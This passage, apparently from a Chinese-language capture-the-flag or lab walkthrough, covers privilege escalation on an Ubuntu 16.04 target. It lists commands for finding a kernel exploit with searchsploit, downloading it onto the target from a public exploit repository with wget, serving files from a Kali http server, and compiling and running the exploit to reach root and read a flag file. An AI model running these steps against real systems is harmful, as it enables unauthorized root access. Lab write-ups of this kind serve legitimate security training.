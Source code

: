 ![31.png](https://s2.loli.net/2024/07/22/epGZJkE5hYuUqty.png)

###### **『`搜索操作系统漏洞` 』**

在kali上继续使用searchsploit工具搜索漏洞：

```
searchsploit Ubuntu 16.04
```

![32.png](https://s2.loli.net/2024/07/22/XGgL6NrJbWlPDuf.png)

![33.png](https://s2.loli.net/2024/07/22/MFeqB3ZtQAc92d7.png)

```
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

![34.png](https://s2.loli.net/2024/07/22/8ywvQb16XFoefCS.png)

###### 『`利用exp提权` 』

接着下载该压缩包并放到kali桌面里，解压该文件，然后在桌面开启临时的http服务，在目标服务器上通过wget命令下载该exp。

```
①Kali开启临时http服务器的命令: 
python3 -m http.server 8888

②远程下载exp的命令：
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip

③解压exp的命令：
unzip 39772.zip（大的压缩包）
tar -xvf exploit.tar（小的压缩包）

④切换目录：
cd ebpf_mapfd_doubleput_exploit

⑤分别执行文件提示的命令完成提权：
./compile.sh
./doubleput

⑥寻找flag：
find / -name *flag*

⑦查看flag：
cat /root/the-flag.txt
```

![35.png](https://s2.loli.net/2024/07/22/htmc8nDCMUW2i5r.png)

![36.png](https://s2.loli.net/2024/07/22/d3E4bgMnku8r9lA.png)

![37.png](https://s2.loli.net/2024/07/22/ohwRT86MQKXnGbO.png)

